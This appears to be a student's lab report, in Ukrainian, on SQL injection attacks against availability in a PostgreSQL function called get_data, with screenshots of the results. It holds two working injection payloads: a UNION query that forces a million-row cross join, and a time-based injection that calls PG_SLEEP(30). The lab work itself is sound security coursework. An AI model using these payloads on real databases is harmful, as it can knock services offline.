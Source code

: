 ### Створити виклики функції з SQL-ін'єкціями з порушень доступності, приклади яких представлені в теоретичних відомостях.
### Створити знімки екранів з результатами виконання викликів функції та розмітити їх у файлі access_results.md у GitHub-репозиторії.

`SELECT * FROM get_data('1'' UNION
(SELECT a1, CAST(a1 AS VARCHAR), CAST(a1 AS INTEGER)
FROM (SELECT generate_series a1 FROM generate_series (1,1000)) t1
CROSS JOIN (SELECT * FROM generate_series (1,1000) t2) t3) -- '); `

<img width="882" alt="Снимок экрана 2022-12-23 в 18 21 41" src="https://user-images.githubusercontent.com/46464830/209366988-eb143732-c6cc-4915-8523-7fcc60b7e636.png">

`SELECT * FROM get_data('1'' OR EXISTS (SELECT 1 FROM PG_SLEEP(30)) -- ');`

<img width="567" alt="Снимок экрана 2022-12-23 в 18 23 01" src="https://user-images.githubusercontent.com/46464830/209367159-cc70bc85-c608-405e-a9f3-71ed2875b008.png">
